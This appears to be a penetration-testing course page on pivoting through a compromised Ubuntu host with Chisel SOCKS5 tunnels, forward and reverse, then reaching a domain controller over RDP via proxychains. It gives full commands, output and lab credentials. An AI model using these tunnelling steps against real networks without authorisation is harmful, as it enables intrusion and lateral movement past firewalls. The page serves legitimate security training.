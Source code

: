 [Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH. 
* `Chisel` can create a client-server tunnel connection in a firewall restricted environment. 
* Let us consider a scenario where we have to tunnel our traffic to a webserver on the `172.16.5.0`/`23` network (internal network). 
	* We have the Domain Controller with the address `172.16.5.19`. This is not directly accessible to our attack host since our attack host and the domain controller belong to different network segments. 
	* However, since we have compromised the Ubuntu server, we can start a Chisel server on it that will listen on a specific port and forward our traffic to the internal network through the established tunnel.

## Setting Up & Using Chisel

Before we can use Chisel, we need to have it on our attack host. If we do not have Chisel on our attack host, we can clone the project repo using the command directly below:

#### Cloning Chisel

SOCKS5 Tunneling with Chisel

```shell-session
canklesmaks@htb[/htb]$ git clone https://github.com/jpillora/chisel.git
```

We will need the programming language `Go` installed on our system to build the Chisel binary. 
* With Go installed on the system, we can move into that directory and use `go build` to build the Chisel binary.

#### Building the Chisel Binary

SOCKS5 Tunneling with Chisel

```shell-session
canklesmaks@htb[/htb]$ cd chisel
go build
```

It can be helpful to be mindful of the size of the files we transfer onto targets on our client's networks, not just for performance reasons but also considering detection. 
* Two beneficial resources to complement this particular concept are Oxdf's blog post "[Tunneling with Chisel and SSF](https://0xdf.gitlab.io/cheatsheets/chisel)" and IppSec's walkthrough of the box `Reddish`. 
* IppSec starts his explanation of Chisel, building the binary and shrinking the size of the binary at the 24:29 mark of his [video](https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1469s).

Once the binary is built, we can use `SCP` to transfer it to the target pivot host.

#### Transferring Chisel Binary to Pivot Host

SOCKS5 Tunneling with Chisel

```shell-session
canklesmaks@htb[/htb]$ scp chisel ubuntu@10.129.202.64:~/
 
ubuntu@10.129.202.64's password: 
chisel                                        100%   11MB   1.2MB/s   00:09    
```

Then we can start the Chisel server/listener.

#### Running the Chisel Server on the Pivot Host

SOCKS5 Tunneling with Chisel

```shell-session
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5

2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
```

The Chisel listener will listen for incoming connections on port `1234` using SOCKS5 (`--socks5`) and forward it to all the networks that are accessible from the pivot host. 
* In our case, the pivot host has an interface on the 172.16.5.0/23 network, which will allow us to reach hosts on that network.

We can start a client on our attack host and connect to the Chisel server.

#### Connecting to the Chisel Server

SOCKS5 Tunneling with Chisel

```shell-session
canklesmaks@htb[/htb]$ ./chisel client -v 10.129.202.64:1234 socks

2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```

As you can see in the above output, the Chisel client has created a TCP/UDP tunnel via HTTP secured using SSH between the Chisel server and the client and has started listening on port 1080. 
* Now we can modify our proxychains.conf file located at `/etc/proxychains.conf` and add `1080` port at the end so we can use proxychains to pivot using the created tunnel between the 1080 port and the SSH tunnel
#### Editing & Confirming proxychains.conf

We can use any text editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

```shell-session
canklesmaks@htb[/htb]$ tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

#### Pivoting to the DC

SOCKS5 Tunneling with Chisel

```shell-session
canklesmaks@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

---

## Chisel Reverse Pivot

In the previous example, we used the compromised machine (Ubuntu) as our Chisel server, listing on port 1234. Still, there may be scenarios where firewall rules restrict inbound connections to our compromised target. 
* In such cases, we can use Chisel with the reverse option.

When the Chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote reversed. 
* The server will listen and accept connections, and they will be proxied through the client, which specified the remote. 
* Reverse remotes specifying `R:socks` will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.

We'll start the server in our attack host with the option `--reverse`.

#### Starting the Chisel Server on our Attack Host

```shell-session
canklesmaks@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5

2022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
```

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

#### Connecting the Chisel Client to our Attack Host

SOCKS5 Tunneling with Chisel

```shell-session
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks

2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected
```

We can use any editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

#### Editing & Confirming proxychains.conf

SOCKS5 Tunneling with Chisel

```shell-session
canklesmaks@htb[/htb]$ tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

If we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

SOCKS5 Tunneling with Chisel

```shell-session
canklesmaks@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

**Note:** If you are getting an error message with chisel on the target, try with a [different version](https://github.com/jpillora/chisel/releases).
